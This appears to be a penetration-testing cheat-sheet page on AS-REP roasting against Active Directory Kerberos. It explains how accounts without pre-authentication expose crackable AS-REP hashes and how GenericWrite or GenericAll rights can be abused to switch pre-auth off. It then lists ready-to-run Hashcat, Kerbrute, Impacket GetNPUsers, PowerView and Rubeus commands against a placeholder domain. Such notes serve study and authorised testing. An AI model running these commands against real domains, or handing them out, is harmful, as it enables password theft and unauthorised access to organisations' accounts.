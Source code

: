 # ASREProasting

## <mark style="color:yellow;">ABOUT</mark>

Usually in Kerberos protocol, we are sending timestamp, encrypted with our password's hash, KDC checks it and if it's true, it sends us TGT. But with <mark style="color:yellow;">**Pre-Auth turned OFF**</mark> it works different (like in old Kerberos versions): We can just ask for TGT, and if we are decrypted it with our password, we are allowed in.&#x20;

So in <mark style="color:red;">**AS-REProasting**</mark>**&#x20;**<mark style="color:purple;">**we need to**</mark> <mark style="color:purple;">**look for account with Pre-Auth turned OFF**</mark>, so we can ask for TGT, so we can try to crack AS-REP request to get password.

> Also if we have <mark style="color:green;">`GenericWrite`</mark> or <mark style="color:green;">`GenericAll`</mark> rights over account, but we don't know it's password, we could make it turn-off Pre-Auth, crack it, and get the password.

## <mark style="color:yellow;">LINUX</mark>

#### Hashcat AS-REP Crack

```bash
hashcat -m 18200 militech_asrep /usr/share/wordlists/rockyou.txt
```

#### Kerbrute AS-REP Retrieve

> Kerbrute will automatically get AS-REP's for users which do not have pre-auth

```bash
kerbrute userenum -d militech.local --dc 13.13.13.13 /opt/jsmith.txt --hash-file
```

#### Impacket's GetNPUsers

```bash
GetNPUsers.py MILITECH.LOCAL/ -dc-ip 13.13.13.13 -no-pass -usersfile valid_ad_users 
```

## <mark style="color:yellow;">WINDOWS</mark>

#### PowerView Check

```powershell
PS C:\> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

#### Rubeus ASREProasting

```powershell
PS C:\> .\Rubeus.exe asreproast /user:sreed /nowrap /format:hashcat
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/asreproast#asreproast" %}

{% embed url="https://blog.harmj0y.net/activedirectory/roasting-as-reps/" %}
